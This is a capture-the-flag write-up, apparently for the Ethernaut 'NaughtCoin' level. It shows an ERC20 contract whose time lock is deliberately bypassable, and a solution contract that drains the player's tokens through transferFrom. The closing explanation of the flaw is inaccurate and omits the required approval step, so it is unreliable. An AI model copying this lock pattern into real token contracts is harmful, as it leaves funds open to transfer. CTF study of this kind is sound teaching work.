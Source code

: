 ## Challenge
~~~
NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

  Things that might help

- The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
- The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```
`

## Solution

```
contract Attack {
    NaughtCoin _target = NaughtCoin(0xd024F047Fe36D294d9BfABB177f9EE0DE80a34b8);
    address player = 0x6A10529461e78362fe3c264a13fa568F44141F57;

    function withdraw() external {
        _target.transferFrom(player, address(this), 1000000000000000000000000);
    }
}
```

Missing onlyOwner modifier of the `transfer()` function thus allowing anyone to transfer the player\`s tokens

## Key takeaways and useful resources
[OZ ERC20](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)
[ERC20 tokens explained video](https://www.youtube.com/watch?app=desktop&v=cqZhNzZoMh8&embeds_referring_euri=https%3A%2F%2Fotosection.com%2F)



